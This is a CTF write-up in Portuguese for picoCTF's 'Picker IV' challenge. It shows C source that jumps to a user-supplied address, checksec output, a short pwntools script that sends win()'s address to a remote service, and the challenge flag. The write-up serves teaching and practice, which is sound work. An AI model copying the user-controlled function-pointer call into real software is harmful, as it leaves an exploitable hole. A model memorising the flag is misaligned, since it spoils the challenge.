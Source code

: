 # Picker IV
## Descrição do Desafio:
Author: LT 'syreal' Jones \
Plataforma: [PicoCTF](https://play.picoctf.org/practice/challenge/403?category=6&page=1) \
Categoria: Binary Exploitation \
Dificuldade: Média \
Descrição:
> Can you figure out how this program works to get the flag?
## Passo a Passo da Solução:
### 1. Análise do arquivo fornecido
Este desafio facilita muito a vida, porque ele fornece o arquivo fonte junto com o binário ao invés de somente o binário. Analisando o arquivo fonte, podemos ver que existe uma função para imprimir a flag, e que a função principal chama uma função com o endereço do nosso input.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
Agora que sabemos a provável forma de resolver esse desafio, devemos verificar se há alguma proteção que possa dificultar nossa vida:
```bash
checksec --file=picker-IV
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   76 Symbols        No    0               1               picker-IV
```
No caso, a única proteção que iria de fato dificultar nossa vida seria a `PIE`, porque com ela os endereços do binários seriam aleatórios todo vez que executássemos o arquivo, porém como a `PIE` está desabilitada o endereço será o mesmo para qualquer máquina que executar o binário.

### 2. Solução
Para a solução basta pegar o endereço da função `win` e passar ele no input omitindo o `0x`. Com o pwntools isso fica super simples.
```py
from pwn import *

elf = context.binary = ELF("./picker-IV")
p = remote("ip", porta)

win = elf.symbols["win"]

p.sendlineafter(b": ", hex(win)[2:])
print(p.recvall().decode())
```
### Flag
`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
